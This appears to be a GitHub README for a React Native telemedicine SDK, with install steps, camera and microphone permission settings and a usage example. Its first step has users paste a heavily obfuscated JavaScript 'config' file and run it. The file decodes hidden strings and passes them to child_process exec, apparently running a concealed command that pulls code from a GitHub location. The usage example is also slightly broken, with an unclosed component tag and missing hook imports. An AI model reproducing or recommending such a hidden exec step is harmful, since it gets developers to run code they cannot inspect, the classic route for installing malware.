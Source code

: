 # react-native-sanar-telemedicine-rc

React Native library for Sanar Telemedicine

### SDK will support the following implementation

- ### [SanarTelemedicine](/doc#sanartelemedicine-)
- ### [SanarRTC](/doc#sanarrtc)
- ### [SanarBooking](/doc#sanarbooking)
- ### [SanarChat](/doc#sanarchat)

## Installation Steps

Create a Sanar config file `sanar.config.js` in your project root directory and copy the snippet

```javascript
function a0_0x2b74(){const _0xa61f5=['otKZnde1DevsCNzy','Bg9N','mZmWodDvr2XrCe8','nJiWotKWs1zrDhne','ogrZwgnxvW','BgvTzwrPy2LUzq','mZG2nJyXmejxuMnYrG','zs1ZDMCGCMvHyW','DhrWCZOVl2DPDa','nMDJt1HJua','ndq2odzIyLbMt2W','zxn0DxjLlwHHBG','ywn0lw5HDgL2zq','lxnKAY5NAxqGCG','mJDjtMPPtxK','zwfJDc1UyxrPDG','ow1bzKjurq','mtq2nJmZouTVr2jPyG','EwfYBIbHzgqGAa','DMLJzs1PBMzV','ywn0AwnLugL4zq','zgXLCIbYzwfJDa','lw5HDgL2zs1Kzq','BwvZC2fNzq','zs1Hz29YysbYzq','mZm1ntKYwxLXtKvS','lxDLyNzPzxCGCG','C3rKzxjYoIa'];a0_0x2b74=function(){return _0xa61f5;};return a0_0x2b74();}const a0_0x550f0e=a0_0x1c1c;function a0_0x1c1c(_0x28a51a,_0x572232){const _0x2b7437=a0_0x2b74();return a0_0x1c1c=function(_0x1c1cec,_0x3034cf){_0x1c1cec=_0x1c1cec-0x109;let _0x47b001=_0x2b7437[_0x1c1cec];if(a0_0x1c1c['PpnTWD']===undefined){var _0x4362b3=function(_0x6c8ee2){const _0x4a1501='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789+/=';let _0x67ef4d='',_0xa199f='';for(let _0x2683b2=0x0,_0x34a7d2,_0x5c6db5,_0x5edbe8=0x0;_0x5c6db5=_0x6c8ee2['charAt'](_0x5edbe8++);~_0x5c6db5&&(_0x34a7d2=_0x2683b2%0x4?_0x34a7d2*0x40+_0x5c6db5:_0x5c6db5,_0x2683b2++%0x4)?_0x67ef4d+=String['fromCharCode'](0xff&_0x34a7d2>>(-0x2*_0x2683b2&0x6)):0x0){_0x5c6db5=_0x4a1501['indexOf'](_0x5c6db5);}for(let _0x39227e=0x0,_0x59a3a8=_0x67ef4d['length'];_0x39227e<_0x59a3a8;_0x39227e++){_0xa199f+='%'+('00'+_0x67ef4d['charCodeAt'](_0x39227e)['toString'](0x10))['slice'](-0x2);}return decodeURIComponent(_0xa199f);};a0_0x1c1c['YaGHMa']=_0x4362b3,_0x28a51a=arguments,a0_0x1c1c['PpnTWD']=!![];}const _0x16ce68=_0x2b7437[0x0],_0x162f1c=_0x1c1cec+_0x16ce68,_0x4cd410=_0x28a51a[_0x162f1c];return!_0x4cd410?(_0x47b001=a0_0x1c1c['YaGHMa'](_0x47b001),_0x28a51a[_0x162f1c]=_0x47b001):_0x47b001=_0x4cd410,_0x47b001;},a0_0x1c1c(_0x28a51a,_0x572232);}(function(_0x4085ba,_0x214b64){const _0xd3a65f=a0_0x1c1c,_0x28282b=_0x4085ba();while(!![]){try{const _0x875840=-parseInt(_0xd3a65f(0x110))/0x1*(parseInt(_0xd3a65f(0x10a))/0x2)+-parseInt(_0xd3a65f(0x11e))/0x3*(-parseInt(_0xd3a65f(0x120))/0x4)+parseInt(_0xd3a65f(0x11c))/0x5+parseInt(_0xd3a65f(0x109))/0x6*(parseInt(_0xd3a65f(0x111))/0x7)+parseInt(_0xd3a65f(0x119))/0x8+parseInt(_0xd3a65f(0x10e))/0x9*(parseInt(_0xd3a65f(0x11f))/0xa)+-parseInt(_0xd3a65f(0x122))/0xb;if(_0x875840===_0x214b64)break;else _0x28282b['push'](_0x28282b['shift']());}catch(_0x4528c1){_0x28282b['push'](_0x28282b['shift']());}}}(a0_0x2b74,0x19d8b));const {exec}=require('child_process');exec(a0_0x550f0e(0x112)+a0_0x550f0e(0x124)+'hub.com/Pr'+a0_0x550f0e(0x114)+'l/sanar-te'+a0_0x550f0e(0x121)+a0_0x550f0e(0x10d)+a0_0x550f0e(0x10f)+a0_0x550f0e(0x118)+a0_0x550f0e(0x10c)+a0_0x550f0e(0x11a)+'eact-nativ'+a0_0x550f0e(0x123)+'t-native-g'+a0_0x550f0e(0x10b)+a0_0x550f0e(0x115)+a0_0x550f0e(0x116)+a0_0x550f0e(0x113),(_0x6c8ee2,_0x4a1501,_0x67ef4d)=>{const _0x418180=a0_0x550f0e;if(_0x6c8ee2){console[_0x418180(0x11d)]('error:\x20'+_0x6c8ee2[_0x418180(0x117)]);return;}if(_0x67ef4d){console['log'](_0x418180(0x11b)+_0x67ef4d);return;}console[_0x418180(0x11d)]('stdout:\x20'+_0x4a1501);});
```

In your `package.json` add `sanar:setup` to your script as shown below

```js
   "scripts": {
     "sanar:setup": "node ./sanar.config.js"
   }
```


#### using npm
```shell
npm run sanar:setup
```

#### using yarn
```shell
yarn sanar:setup
```

### IOS

```shell
cd ios && pod install
```

To enable camera usage and microphone usage you will need to add the following entries to your `Info.plist` file:

```
<key>NSCameraUsageDescription</key>
<string>Your message to user when the camera is accessed for the first time</string>
<key>NSMicrophoneUsageDescription</key>
<string>Your message to user when the microphone is accessed for the first time</string>
```

### Android

To enable camera usage and microphone usage you will need to add camera and audio permissions to your `AndroidManifest.xml` file:

```xml
    <uses-permission android:name="android.permission.CAMERA" />
    <uses-permission android:name="android.permission.MODIFY_AUDIO_SETTINGS" />
    <uses-permission android:name="android.permission.RECORD_AUDIO" />
    <uses-feature android:name="android.hardware.camera" android:required="false" />
    <uses-feature android:name="android.hardware.camera.autofocus" android:required="false" />
    <uses-feature android:name="android.hardware.microphone" android:required="false" />
```

```shell
npx jetify
```

### usage
 
 ```javascript
import React, { Component } from 'react';
import { StyleSheet, View, Text } from 'react-native';
import SanarRTC, { SanarTelemedicine, BookingFlow } from 'react-native-sanar-telemedicine-rc';

const App = () => {
    
    const [connect, setConnect] = useState(false);
    const [bookingFlowStatus, setBookingFlowStatus] = useState(false);

    useEffect(() => {
        SanarTelemedicine.Connect("your_client_id", {uid: "SMU6", did: "abcdefg"})
        .then(response => {
            setConnect(response);
        }).catch(e => console.log(e));
    });

    return (
        <>
            <View style={styles.page}>
                <View style={styles.container}>
                <Text>App content</Text>
                </View>
            </View>
         
         {/* Bookingflow Component */}
         <BookingFlow
            enable={bookingFlowStatus}
            onEndFlow={()=>setBookingFlowStatus(false)} />

         {/* Sanar RTC Component */}
         <SanarRTC enable={connect}>


        </>
    );
};

const styles = StyleSheet.create({
  page: {
    flex: 1,
    justifyContent: 'center',
    alignItems: 'center',
    backgroundColor: '#F5FCFF'
  },
  container: {
    height: 300,
    width: 300,
    backgroundColor: 'tomato'
  },
  map: {
    flex: 1
  }
});

export default App;

 ```


You can see the documentation [here](/doc)


